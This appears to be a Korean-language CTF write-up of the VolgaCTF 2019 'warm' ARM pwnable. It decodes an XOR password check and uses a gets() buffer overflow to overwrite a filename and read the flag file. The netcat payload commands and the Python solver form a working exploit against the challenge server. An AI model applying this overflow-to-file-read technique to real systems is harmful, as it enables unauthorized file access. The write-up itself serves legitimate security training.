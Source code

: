 ```yaml
---
layout: post
title: [volgaCTF 2019] warm
excerpt_separator: <!--more-->
tags:
  - Vertex
  - VolgaCTF2019
  - Write-up
---
```




## VolgaCTF2019 - warm

arm 바이너리로 되어있는 포너블 문제이다.



arm 명령어는 익숙치 않아서

hexray를 사용하고, 호출하는 함수 역할대로 네이밍을 해보면

![](https://i.imgur.com/Z8KZMMP.png)





선언된 내부 변수명 설정.

![](https://i.imgur.com/MsbflRq.png)



이 바이너리는

1. flag파일의 이름을 환경변수로부터 가져온다. 환경변수에 없으면 그냥 “flag”
2. 패스워드를 gets로 inputBuf[100]에 입력받는다. (버퍼오버플로우 발생)
3. 입력값을 chkPassword로 확인
4. filename에 들어있는 파일을 읽어서 화면에 뿌려줌.



gets에서는 버퍼오버플로우가 발생하는데, 이를 통해 inputBuf[100]을 넘겨서 filename을 덮어쓸 수 있습니다. 그럼 임의의 파일을 읽을 수 있습니다.



풀이 절차는

1. chkPassword 함수를 분석해 암호를 알아낸다.

 	2. 버퍼오버플로우를 이용해 flag파일을 읽는다. 또는 쉘을 얻어낸다.



## chkPassword 함수를 통해 암호 알아내기

![](https://i.imgur.com/Z9AVcMd.png)

상당히 노골적인(?) 암호 체크 함수입니다.

각 조건별로 (passChr[i] ^ passChr[i-1]) == ?? 형태이고, 

?? ^ passChr[i-1] 를 통해 passChr[i]의 값을 알아낼 수 있습니다.

passChr[0]은 85 ^ 0x23 즉 76입니다.

이 값을 이용해 연쇄적으로 모든 password를 알아낼 수 있습니다.



```python
key = [85,78,30,21,94,28,33,1,52,7,53,17,55,60,114,71]

passChr = 35 # 0x23

password = ""
for i in key:
    passChr = i ^ passChr
    password += chr(passChr)

print(password)
```

```
v8&3mqPQebWFqM?x
```





```
python -c "print('v8&3mqPQebWFqM?x');" | nc warm.q.2019.volgactf.ru 443 
```

\>>>

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```





## flag 파일 읽기

BOF를 이용해 filename을 덮어쓸 수 있습니다.

inputBuf 크기가 100이고, 아까 구한 패스워드 크기가 16이므로,

```
( password ) + ( 84 크기 dummy ) + (읽을 파일명)
```



으로 페이로드를 짜면 됩니다.



아까 패스워드를 입력해서 환경변수로 등록된 flag파일의 내용이

```
Seek file with something more sacred!
```

였고, 다른 writeup들을 찾아본 결과 “sacred” 파일을 읽으면 된다네요.



``` sh
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```



이렇게 찾은 플래그는

```
VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} 
```


